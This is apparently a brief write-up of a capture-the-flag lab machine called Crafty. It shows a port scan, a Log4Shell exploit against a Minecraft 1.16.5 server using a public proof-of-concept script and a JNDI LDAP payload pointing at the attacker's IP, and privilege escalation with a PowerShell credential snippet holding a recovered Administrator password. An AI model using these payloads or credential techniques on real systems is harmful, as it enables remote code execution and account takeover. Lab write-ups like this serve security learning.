 ## Crafty - Windows Machine


- [+]	Target Ip
   >>	10.10.11.249
   

## Recon 

- [1] PORT      STATE SERVICE
- [+] 80/tcp    open  http
- [+] 25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 2/100)


- [+]	Minecraft 1.16.5 vulnerable to log4j 

   >>	couple of github repos to setup ldap servers and to exploit log4j needs to inject the basic $jdni:ldap//ip/a 

   >>	problem was to find a minecraft server cuz there waas no way for me to install minecraft in my vm xD

   >>	found a repo on git 
            
        ```poc.py
            python3 poc.py --userip 10.10.16.77 --webport 8000 --lport 9001 ## add ur tun0 ip instead of localhost  
            [+] Send me: ${jndi:ldap://10.10.16.77:1389/a}
            ```
            
        ```mcli 
            ./mcli whitenight '' 10.10.11.249
            /send ${jndi:ldap://10.10.16.77:1389/a}
            ```
## Privesc

- [+]	Plugin files shows a password for rcon , which didnt work for me earlier 
        ```powershell
        $user = 'Administrator'
        $pass = ConvertTo-SecureString 's67u84zKq8IXw' -AsPlainText -Force
        $creds = New-Object System.Management.Automation.PSCredential($user,$pass)
        Start-Process -FilePath "C:\Users\svc_minecraft\AppData\Local\Temp\priv.exe" -Credential $creds
        ```
